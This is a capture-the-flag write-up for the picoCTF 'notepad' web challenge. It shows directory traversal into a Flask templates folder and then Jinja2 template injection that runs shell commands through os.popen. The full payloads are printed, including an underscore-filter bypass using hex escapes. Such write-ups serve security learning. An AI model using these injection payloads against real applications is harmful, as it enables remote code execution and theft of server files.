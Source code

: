 # Solution

Download the and extract notepad.tar file.

```bash
$ curl https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar -o notepad.tar -L
```

From the Dockerfile, we see that our flag is store in `/app/` folder, and the name has been scrambled. 

```dockerfile
WORKDIR /app
COPY app.py flag.txt ./
COPY templates templates
RUN mkdir /app/static && \
    chmod -R 775 . && \
    chmod 1773 static templates/errors && \
    mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).tx
```

Let's run the app locally to check it's behavior.

```bash
$ pip install flask
$ flask run
```

We are greeted with a webpage that on user input submitted, will
1. Create a file with the first 128 characters of input + random base64 encoded string
2. Write user input to that file

As the file name is not sanitized. We are able to provide a custom path via directory traversal.

```python
# No sanitization, other than decoding url encoded string, and appending random strings to end of name
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
```

Let's try to create a new file in the `templates/errors` folder using the following string `..\templates\errors\test` as our input.

Open `http://localhost:5000/?error=test-{the_random_bytes}` in the browser.

And we should see the following prompt.
```
..\templates\errors\test
```

Okay, since Flask is using Jinja as a template engine, we are able to injection templates and run code.

From the [templates guide](https://flask.palletsprojects.com/en/2.0.x/templating/), we are able to access the following variables

```
config      - current configuration object
request     - current request object
session     - current session object
g           - request bound object for global variables
url_for()   - flask.url_for() function
get_flashed_messages() - flask.get_flashed_messages() function
```

Let's check if this is true **locally** by changing the contents in our `test.html`. to `{{ request }}`.

Access `http://localhost:5000/?error=test` and we are greeted with 

```
<Request 'http://localhost:5000/?error=test1' [GET]>
```

Now all we have to do is to find the name of the `flag.txt` file and print out its contents.

To do that, let's traverse the `request` object.

```python
{{ request.application.__globals__ }}

{'__name__': 'werkzeug.wrappers.request', '__doc__': None, '__package__': 'werkzeug.wrappers', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7faefe1ae670>, '__spec__': ModuleSpec(name='werkzeug.wrappers.request', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7faefe1ae670>, origin='/home/alex/.virtualenvs/picoCTF/lib/python3.8/site-packages/werkzeug/wrappers/request.py'), '__file__': '/home/alex/.virtualenvs/picoCTF/lib/python3.8/site-packages/werkzeug/wrappers/request.py', '__cached__': '/home/alex/.virtualenvs/picoCTF/lib/python3.8/site-packages/werkzeug/wrappers/__pycache__/request.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>
}
```

From the output above, we see that we have access to the global `__import__` function. This allows us to spawn a shell and find the file name.

```
{{ request.application["__globals__"]["__builtins__"]["__import__"]('os').popen('ls -alt').read()}} }}
```

The only problem left is that '_' is not allowed. To circumvent this issue, we convert '_' to it's hex equivalent, which is `\x5f`.

```
{{ request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os').popen('ls -alt'.read()}} }}
```

To make our lives easier, we can also pad the template with characters to prevent the file name from containing url-encoded values.

Final input looks like

```
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa {{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os').popen('ls -alt').read()}}
```

Submit the input to the challenge website to get the name of flag file.

```
flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
```

Finally, we can print out the contents of the file with the input below.

```
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa {{request.application["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]('os').popen('cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt').read()}}
```

And our flag is `picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}`.

Solution was inspired from [Diana Lin](https://activities.tjhsst.edu/csc/writeups/picomini-redpwn-notepad) and with further resources from [SecGus](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)